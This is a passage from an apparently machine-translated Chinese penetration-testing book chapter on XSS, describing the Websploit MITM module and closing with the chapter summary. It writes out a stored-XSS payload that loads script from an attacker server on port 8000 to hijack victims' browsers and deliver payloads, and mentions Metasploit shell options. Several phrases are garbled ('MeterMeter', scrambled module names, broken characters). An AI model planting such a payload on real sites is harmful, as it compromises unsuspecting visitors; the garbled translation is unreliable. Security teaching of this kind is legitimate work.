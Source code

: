 由于这一章都是关于 XSS 的，基于 DOM 的 To.T0.左边的中间人 To1 T1（MultT2A.MLITM TA3T.T）攻击是我们正在使用的工具，所以让我们来看看我们如何利用该模块。您需要下载最新版本，从 tarball 中提取它，然后使用安装脚本。

一旦我们安装了它，我们只需从终端会话调用`websploit`命令，它就会启动它。从这里开始，我们将使用 network/mlitm。随着模块的发展，你不会比 MLIMM 工具更简单。你没有选择的余地，因为这个模块基本上由一个侦听 Web 服务器（类似于一个处理程序）和一个 Python 模块（AuthT1）组成，它充当默认的有效负载。但与任何 XSS 攻击一样，我们的目标是在用户信任的路径中放置一个脚本，然后使用它将其浏览器重定向到攻击服务器，在那里可以安装此负载，并协调信息或操作。

我在这次攻击中使用的脚本非常简单；我们希望将受害者浏览器引入我们的 C2 服务器/攻击箱，并允许运行在默认端口`8000`上的 webserver Websploit 为此目的交付有效负载并建立我们的通道：1

```
<script src=http://172.16.30.128:8000></script>
```

我们将其放在以前使用过的同一博客条目字段中，在您知道之前，我们有一个不幸的受害者出现并使用该链接（如以下屏幕截图所示）：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_16-1.png)

脚本条目和对受害者的外观�� 简单但有效。

在我们的 Kali 框中，我们可以看到我们正在交付有效负载，并通过引用链接看到用户的流量，正如我们在下面的屏幕截图中开始看到的那样。从这里，您可以自由地试验有效负载的改变，并实现我们在其他工具中看到的一些控制。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_17-1.png)

Websploit 提供了一种无需任何修饰的监听和有效载荷传递服务。

Websploit 在攻击链的其他领域是一个强大的工具，它与混合攻击模块（如 AutoWn、DoS）及其 WiFi 攻击配合得很好。对于 XSS，我发现 Metasploit 在管理有效负载和提供 shell 选项方面提供了更多的通用性。除了 MeterMeter 之外，还有十几种其他的外壳选择，这取决于你的目标可以逃脱什么，以及需要什么样的隐身和功能组合。*  *## 总结

* * *

自从动态内容的爆炸将 JavaScript 带入 web 开发的前沿以来，XSS 攻击一直是安全专业人员和数百万受害者的眼中钉。再加上建立信任的过时手段（基于实体，没有输入验证），这使得 XSS 成为 OWASP 十大漏洞已经超过 10 年。很明显，应该采取一些措施来引起更多的关注，而笔式测试的使用增加才是关键。

XSS 的工具很多，虽然我们讨论了这里包含的一些更易访问的工具，但在准备编写本章时，我发现这些工具集经历了一些起伏；随着时间的推移，一些工具已不再受欢迎，而另一些工具似乎仍在继续竞争�� Rapid7 是维护和赞助 Metasploit 的关键角色，而 XSSer 和 Websploit 都偶尔得到支持。我鼓励您尽可能深入研究这些工具和其他工具，以便更好地了解哪些工具应该放在您的工具箱中。明智的做法是，每个角色至少有两个工具，具有不同的优势和重叠能力，以帮助更好地覆盖角落案例场景。

在本章中，我们介绍了 XS 的类型，它们在我们追求*pwnership*（黑客说可以随意破坏网站或目标）*、*的过程中对我们造成伤害或帮助的可能性，以及一些利用它们来了解客户机及其与服务器关系的好方法。我们还看到，XSS 可以为真正的黑帽攻击者提供一个险恶的立足点，使他们能够操纵系统资源并监视受害者。XSS 的重点是利用客户机-服务器之间的信任关系来危害客户机，我们下一章将讨论客户端攻击以及如何利用相同的信任关系来控制或强制服务器本身。这些攻击被广泛称为注入攻击，并涵盖了 web 应用程序安全领域的一些热门话题，如 HTML、SQL、XML，甚至经常被忽视的 LDAP。在下一章结束时，您将有一个坚实的攻击基础，以帮助在大多数应用程序和客户中找到关键数据泄露和主机控制用户。我很高兴你能坚持到这一步，让我们看看我们能造成或防止什么进一步的损害！*